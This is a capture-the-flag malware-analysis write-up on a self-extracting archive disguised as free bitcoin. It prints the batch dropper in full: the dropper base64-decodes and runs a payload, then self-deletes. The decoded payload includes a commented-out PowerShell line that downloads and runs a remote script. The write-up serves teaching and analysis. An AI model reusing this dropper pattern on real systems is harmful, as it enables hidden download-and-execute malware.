


#  Free Bitcoin 433 - Malware Analysis Writeup

## Challenge Descritption


I just wanted free bitcoin. Guess I got free viruses instead. **(Note: Although this is a malware analysis task, this file is totally secure and indeed try executing it. Some antiviruses will maybe flag it as a malware, but, once again, its totally secure to execute it and analyse it.)**

---

## Provided Files

[freeBitcoin.zip.exe](taskFiles/freeBitcoin.zip.exe)

---

## TL;DR

This is an sfx enabled archive. Open it with winrar or any program that support zip files, you'll find a file called olala.bat.
Decrypt the base64 payload.

**Flag: Securinets{Malwares_Are_No_DJO_ke}**

---

## Initial Analysis

For this challenge, the players were given a .exe file. Executing it, while totally safe, will amount to nothing except displaying a picture.



Running a strings command on this file will display a number of lines. Three at the end will hint to our malware file type.

```bash
;The comment below contains SFX script commands
Setup=ohNo.bat
Silent=1
```

Looking up SFX online, we get back this Wikipedia definition: *A self-extracting archive (SFX or SEA) is a computer executable program which combines compressed data in an archive file with machine-executable code to extract the information. Running on a compatible operating system, it does not need a suitable extractor in the target computer to extract the data. The executable part of the file is known as a decompressor stub.*

Unfortunately, this makes it easier for attackers to append malicious code to these files, and unexpecting users will be greeted with a malware instead of their files. [Read this article for more refference.](https://medium.com/@drthkol478/how-sfx-archive-malware-works-ecb95d280841)

In a nutshell, its a zip with some script. Viewing it with a program that supports zip files now will do the trick. For this task I used WinRAR. Right clicking on the file and choosing the open with WinRAR option will give us two files. One of them is the jpg file and the other is a .bat file. on the right side we can confirm that it's an sfx enabled zip file and that it executes the Ohno.bat upon extraction. 



Right click and view file. We get a batch script that decodes a base64 payload and executes it. It then self deletes, which explains why it didn't extract along with the jpg file. Decoding the obfuscated script, we find out that its used to download a remote malicious script and executing it and displaying the image file.

```bash
@echo off
setlocal

set "RandomString=QGVjaG8gb2ZmCnNldGxvY2FsIGVuYWJsZWRlbGF5ZWRleHBhbnNpb24KCnNldCBPVVRQVVRfRklMRT1tZXJkZS50eHQKc2V0IERPV05MT0FEX1VSTD1odHRwczovL1NlY3VyaW5ldHN7TWFsd2FyZXNfQXJlL2Zha2Vfc2NyaXB0LmJhdAoKZWNobyBZb3UndmUgYmVlbiBoYWNrZWQuID4gIiFPVVRQVVRfRklMRSEiCgpzdGFydCAiIiAiLlxvbGFsYS5qcGciCgo6OiBNYWxpY2lvdXMgY29kZQo6OiBwb3dlcnNoZWxsIC1Db21tYW5kICIoTmV3LU9iamVjdCBTeXN0ZW0uTmV0LldlYkNsaWVudCkuRG93bmxvYWRGaWxlKCchRE9XTkxPQURfVVJMIScsICdkb3dubG9hZGVkX3NjcmlwdC5iYXQnKSIKOjpfTm9fREpPX2tlfQo6OiBzdGFydCAvYiBkb3dubG9hZGVkX3NjcmlwdC5iYXQKOjogV2hhdCBhIGdvb2QgZGF5IHRvIGJlIGFuIGlkaW90Cgo="

for /f "delims=" %%i in ('powershell -Command "[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('%RandomString%'))"') do (
    %%i
)

set "SELF_DELETING_SCRIPT=%~f0"
timeout /t 1 >nul
del /f "!SELF_DELETING_SCRIPT!" >nul 2>&1
exit
```

Decoded script:

```bash
@echo off
setlocal enabledelayedexpansion

set OUTPUT_FILE=merde.txt
set DOWNLOAD_URL=https://Securinets{Malwares_Are/fake_script.bat

echo You've been hacked. > "!OUTPUT_FILE!"

start "" ".\olala.jpg"

:: Malicious code
:: powershell -Command "(New-Object System.Net.WebClient).DownloadFile('!DOWNLOAD_URL!', 'downloaded_script.bat')"
::_No_DJO_ke}
:: start /b downloaded_script.bat
:: What a good day to be an idiot
```

**Flag:** Securinets{Malwares_Are_No_DJO_ke}
